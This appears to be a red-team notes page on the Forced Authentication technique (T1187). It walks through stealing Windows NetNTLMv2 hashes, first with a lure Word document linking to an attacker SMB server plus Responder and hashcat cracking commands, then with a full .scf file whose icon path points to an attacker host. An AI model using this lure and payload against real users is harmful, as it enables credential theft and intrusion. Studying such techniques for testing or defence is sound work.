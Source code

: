 ```yaml
---
description: 'Credential Access, Stealing hashes'
---
```


# T1187: Forced Authentication

## Execution via Hyperlink to an SMB server

Attacker creates a fake MS Word document that has a hyperlink to attackers server where a `responder` is listening on port 445 and will be capturing the victim's `NetNTLMv2` hash if they click the dodgy link in the below document:

![](../.gitbook/assets/forced-auth-word.png)

{% file src="../.gitbook/assets/totes-not-a-scam.docx" caption="Forced SMBv2 Authentication - MS Word File" %}

Attacker starts a responder so he can receive incoming SMB authentication request in order to capture the victim's hashes:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
responder -I eth1
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Attacker sends the malicious document to the unsuspectim victim and convinces them to click the link. Once they click the link in the document, `responder` on the attacker's system captures victim's hash:

![](../.gitbook/assets/forced-auth-hashes.png)

Once attacker got the hash, he can try and crack it using hashcat:

```csharp
hashcat -m5600 /usr/share/responder/logs/SMBv2-NTLMv2-SSP-10.0.0.2.txt /usr/share/wordlists/rockyou.txt --force
```

Success, the password is cracked:

![](../.gitbook/assets/forced-auth-cracked.png)

Using the cracked passsword to get a shell on the victim system:

![](../.gitbook/assets/forced-auth-shell%20%281%29.png)

## Execution via .SCF

Place the below `fa.scf` file on an attacker controlled machine at `10.0.0.7` in a shared folder `tools`

{% code-tabs %}
{% code-tabs-item title="\\\\10.0.0.7\\tools\\fa.scf" %}
```csharp
[Shell]
Command=2
IconFile=\\10.0.0.5\tools\nc.ico
[Taskbar]
Command=ToggleDesktop
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% file src="../.gitbook/assets/fa.scf" caption="fa.scf" %}

An victim user `low` then opens the share `\\10.0.0.7\tools`, `fa.scf` gets executed and the user's hashes are sent to the attackers machine:

![victim opens \\10.0.0.7\tools, fa.scf executes and gives away low&apos;s hashes](../.gitbook/assets/forced-auth-shares.png)

![user&apos;s low hashes were received by the attacker](../.gitbook/assets/forced-auth-scf.png)

What's interesting with the `.scf` attack is that the file could easily be downloaded with a browser and as soon as the victim opens the Downloads folder, the hashes are stolen:

![](../.gitbook/assets/forced-auth-downloads.png)

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1187\",\"type\":\"link\",\"title\":\"Forced Authentication - ATT&CK for Enterprise\"}" %}

[http://www.defensecode.com/whitepapers/Stealing-Windows-Credentials-Using-Google-Chrome.pdf](http://www.defensecode.com/whitepapers/Stealing-Windows-Credentials-Using-Google-Chrome.pdf)

{% embed data="{\"url\":\"https://www.bleepingcomputer.com/news/security/you-can-steal-windows-login-credentials-via-google-chrome-and-scf-files/\",\"type\":\"link\",\"title\":\"You Can Steal Windows Login Credentials via Google Chrome and SCF Files\",\"description\":\"Just by accessing a folder containing a malicious SCF file, a user will unwittingly share his computer\'s login credentials with an attacker via Google Chrome and the SMB protocol.\",\"icon\":{\"type\":\"icon\",\"url\":\"https://www.bleepstatic.com/favicon/bleeping.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://www.bleepstatic.com/content/hl-images/2017/05/16/WindowsPassword.jpg\",\"width\":1250,\"height\":525,\"aspectRatio\":0.42}}" %}

{% embed data="{\"url\":\"https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/\",\"type\":\"link\",\"title\":\"SMB Share – SCF File Attacks\",\"description\":\"SMB is a protocol which is widely used across organisations for file sharing purposes. It is not uncommon during internal penetration tests to discover a file share which contains sensitive informa…\",\"icon\":{\"type\":\"icon\",\"url\":\"https://s1.wp.com/i/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://pentestlab.files.wordpress.com/2017/12/metasploit-smb-relay-attack.png\",\"width\":724,\"height\":401,\"aspectRatio\":0.5538674033149171}}" %}

